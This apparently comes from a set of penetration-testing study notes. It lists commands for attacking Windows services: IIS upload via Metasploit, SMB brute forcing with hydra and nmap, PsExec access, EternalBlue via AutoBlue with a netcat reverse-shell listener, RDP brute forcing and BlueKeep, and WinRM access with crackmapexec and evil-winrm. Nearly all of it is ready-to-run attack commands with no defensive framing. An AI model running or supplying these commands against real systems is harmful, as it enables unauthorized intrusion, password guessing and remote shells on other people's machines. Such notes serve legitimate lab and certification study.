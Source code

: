 Way two:
`msfconsole`
`search iis upload`
`use $payload`
`set $options`
`run`


## SMB
PsExec is a tool similar to RDP but it uses the cli
Exploit with psexec tool:
- to bruteforce: `msfconsole;search smb_login`
  `nmap --script smb-brute.nse -p445 <host>`
  `hydra -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`
- to access: `psexec.py Administrator@$ip cmd.exe`

Exploit with metasploit modul
`use /exploit/windows/smb/psexec`

Exploiting Eternalblue:
-> Working on Systems that are running SMBv1 only

-> to check: `nmap -sV -p445 --script=smb-vuln-ms17-010 $ip`

-> Exploit AutoBlue from github or using metasploit

-> AutoBlue: download AutoBlue -> run the bash script -> open listener `nc -nvlp 1234` -> `python eternalblue_exploit7.py $target_ip shellcode/sc_x64.bin`

-> metasploit `msfconsole;search eternalblue`


## RDP
to enumerate -> `msfconsole; search rdp_scanner`

to bruteforce-> `hydra -l administrator -P /usr/share/wordlists/rockyou.txt $ip rdp -s $port`

to connect-> `xfreerdp /u:administrator /p:passowrd123 /v:$target_ip:port`

Exploiting BlueKeep: `msfconsole; search bluekeep`
remember to set a target `show targets; set target $number`, if you do not know your target, try all of them :)


## WinRM
exploit with tools:
- **crackmapexec**: to bruteforce and also run commands on target
  - `crackmapexec winrm $target_ip -u administrator -p passwords.txt`
  - `crackmapexec winrm $target_ip -u administrator -p password123 -x "systeminfo"`
- **evil-winrm**: to get command shell session 
  `evil-winrm.rb -u administrator -p password123 -i $target_ip`

exploit with metasploit:
`msfconsole; search winrm`
remember to force to use the VBS cmdStager `set FORCE_VBS true`
